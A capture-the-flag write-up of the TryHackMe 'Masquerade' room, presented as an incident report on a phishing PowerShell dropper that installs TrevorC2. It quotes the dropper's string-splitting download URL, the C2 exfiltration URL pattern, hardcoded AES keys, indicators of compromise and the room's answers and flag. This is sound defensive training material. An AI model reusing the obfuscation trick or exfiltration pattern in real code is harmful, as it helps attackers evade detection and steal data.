








# Incident Investigation Report: Operation "TrevorC2 Stealth"

---

## Scenario Overview

Jim, a Finance department employee, received a phishing email disguised as a message from the company's system administrator asking him to run a PowerShell script for "critical security updates." After executing the script, unusual network traffic and system activity were observed. The goal is to investigate the artifacts, trace the kill chain, identify the malware family, and decrypt the attacker's commands.

> **Important:** These artifacts contain real malware. All analysis was performed using static methods only inside a controlled VM environment. No files were executed.

---

## Kill Chain Reconstruction

```
[1] Delivery
    └─ Phishing email → "critical security updates" PowerShell script

[2] Initial Access & Execution
    └─ Obfuscated PowerShell dropper
    └─ Contacts: http://api-edgecloud.xyz/amd.bin

[3] Installation
    └─ Downloads: download.exe (TrevorC2 Loader)
    └─ SHA-256: e3d39d42df63c6874780737244370ba517820f598fd2443e47ff6580f10c17cb

[4] Command & Control
    └─ C2 Server: 34.174.57.99
    └─ Inbound: HTML comments on C2 webpage
    └─ Outbound: /images?guid=[AES Encrypted Base64]

[5] Execution of Attacker Commands
    └─ Decrypted via AES-256-CBC
    └─ Flag recovered: THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}
```

---

## Question 1 — What external domain was contacted during script execution?

### Investigation

Opening the PowerShell script in a text editor revealed heavy obfuscation using string splitting and concatenation to evade IDS/IPS signature detection:

```powershell
$url = 'ht' + 'tp' + '://api-edgecloud.xyz/amd.bin'
```

By concatenating the string at runtime rather than writing the full URL as a literal, the script bypasses simple pattern-matching rules in security tools.

Reassembling the full URL reveals the dropper server.

### Answer

```
api-edgecloud.xyz
```


---

## Question 2 — What encryption algorithm was used by the script?

### Investigation

Further static analysis of the PowerShell script revealed the presence of cryptographic operations. The script used .NET's built-in `System.Security.Cryptography` namespace. Inspecting the cipher mode, key size, and padding settings confirmed the algorithm.

The same algorithm was later confirmed in the malware's C2 communication channel — used in CBC mode with PKCS7 padding for encrypting beaconed data sent to the C2 server.

### Answer

```
AES
```

---

## Question 3 — What key was used to decrypt the second-stage payload?

### Investigation

The PowerShell dropper script contained a hardcoded key used during the first stage of the infection chain to decrypt or verify the downloaded payload (`amd.bin`) before loading it into memory.

The key was found as a plaintext string within the script body:

```
X9vT3pL2QwE8xR6ZkYhC4s
```

This is a common technique in multi-stage loaders — each stage carries the decryption key for the next, making analysis harder without catching all stages.

### Answer

```
X9vT3pL2QwE8xR6ZkYhC4s
```


---

## Question 4 — What was the timestamp of the server response containing the payload?

### Investigation

Examining the captured network traffic (PCAP file) and filtering for HTTP responses from `api-edgecloud.xyz`, the server response containing the `amd.bin` payload was identified. The HTTP response headers included a `Date` field indicating exactly when the payload was served.

### Answer

*(Extracted from HTTP response headers in the PCAP — recorded during network capture)*


---

## Question 5 — What is the SHA-256 hash of the extracted and decrypted payload?

### Investigation

After extracting the `download.exe` / `amd.bin` payload from the network capture and verifying the decryption, the file was hashed for identification:

```bash
sha256sum download.exe
```

Submitting the hash to **VirusTotal** confirmed the malware family as **TrevorC2** — an open-source Command and Control framework — detected by 34 out of 70 security vendors at the time of investigation.

### Answer

```
e3d39d42df63c6874780737244370ba517820f598fd2443e47ff6580f10c17cb
```



---

## Question 6 — What remote URL did the client use to communicate with the victim machine?

### Investigation

Static analysis of the decompiled .NET assembly (using tools like **dnSpy** or **ILSpy**) revealed the C2 communication pattern. The malware used two channels:

- **Inbound (C2 → Victim):** Commands were hidden inside HTML comment tags (`<!-- -->`) on a webpage hosted at the C2 IP, retrieved via HTTP GET.
- **Outbound (Victim → C2):** Command outputs were AES encrypted, Base64 encoded, and exfiltrated via HTTP GET requests disguised as image queries.

The exfiltration URL pattern:

```
http://34.174.57.99/images?guid=[AES_Base64_Encrypted_Data]
```

### Answer

```
http://34.174.57.99/images?guid=
```


---

## Question 7 — Which encryption key and algorithm does the client use?

### Investigation

Inspecting the decompiled .NET source code of the TrevorC2 loader, a hardcoded AES key was found embedded in the client configuration. This key was used for all C2 channel encryption — both for receiving commands and encrypting responses.

**Algorithm:** AES-256  
**Mode:** CBC  
**Padding:** PKCS7  
**Key (Hardcoded):**

```
M4squ3r4d3Th3P4ck3tSt34lthM0d31337
```

### Answer

```
AES-256 / M4squ3r4d3Th3P4ck3tSt34lthM0d31337
```


---

## Question 8 — Decrypt the attacker's commands and submit the flag

### Investigation

With the AES key identified, the encrypted traffic from the PCAP was decrypted. The `guid` parameter values from the HTTP GET requests were:

1. Base64-decoded
2. AES-256-CBC decrypted using key `M4squ3r4d3Th3P4ck3tSt34lthM0d31337`

The decrypted output revealed the attacker's executed commands on the victim machine:

```
Hostname: DESKTOP-I6C5C7M
Command:  echo THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}
```

### Flag

```
THM{m45k3d_tr4ff1c_0v3r_c0v3rt_ch4nn3lz}
```


---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| Domain | `api-edgecloud.xyz` | Stage 1 Dropper / Staging Server |
| IP Address | `34.174.57.99` | Primary C2 Server |
| SHA-256 | `e3d39d42df63c6874...c17cb` | TrevorC2 Loader (`download.exe`) |
| URL | `http://34.174.57.99/images?guid=` | Data Exfiltration Path |
| AES Key (Stage 1) | `X9vT3pL2QwE8xR6ZkYhC4s` | Payload Decryption Key |
| AES Key (C2) | `M4squ3r4d3Th3P4ck3tSt34lthM0d31337` | C2 Channel Encryption Key |
| Victim Hostname | `DESKTOP-I6C5C7M` | Compromised Machine |

---

## Malware Profile — TrevorC2

| Property | Value |
|---|---|
| Malware Family | TrevorC2 (Backdoor/Trojan) |
| Language | .NET Assembly |
| C2 Method | HTTP — Commands hidden in HTML comments |
| Exfiltration | HTTP GET `/images?guid=` with AES+Base64 payload |
| Encryption | AES-256-CBC, PKCS7 Padding |
| VirusTotal Detections | 34 / 70 vendors |

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1566.001 | Phishing: Spearphishing Attachment |
| Execution | T1059.001 | PowerShell |
| Defense Evasion | T1027 | Obfuscated Files or Information |
| Defense Evasion | T1036 | Masquerading |
| Command & Control | T1071.001 | Web Protocols (HTTP) |
| Command & Control | T1132.001 | Data Encoding: Standard Encoding (Base64) |
| Command & Control | T1573.001 | Encrypted Channel: Symmetric Cryptography |
| Exfiltration | T1041 | Exfiltration Over C2 Channel |

---

## Lessons Learned

1. **Train employees to verify requests** — A legitimate sysadmin will never ask users to run scripts via email without a formal change management process.
2. **Block PowerShell download cradles** — Use AppLocker or WDAC to restrict unauthorized PowerShell usage.
3. **Inspect HTTP traffic content, not just headers** — TrevorC2 hides commands in HTML comments, which basic firewall rules won't catch.
4. **Monitor for encoded URL parameters** — Large Base64-encoded GET parameters (like `guid=`) on non-standard endpoints are a red flag for covert data exfiltration.
5. **Hunt for hardcoded keys in .NET assemblies** — Static analysis of decompiled .NET code frequently reveals C2 keys and infrastructure.

---

*Writeup produced as part of SOC Analyst training — TryHackMe: Masquerade*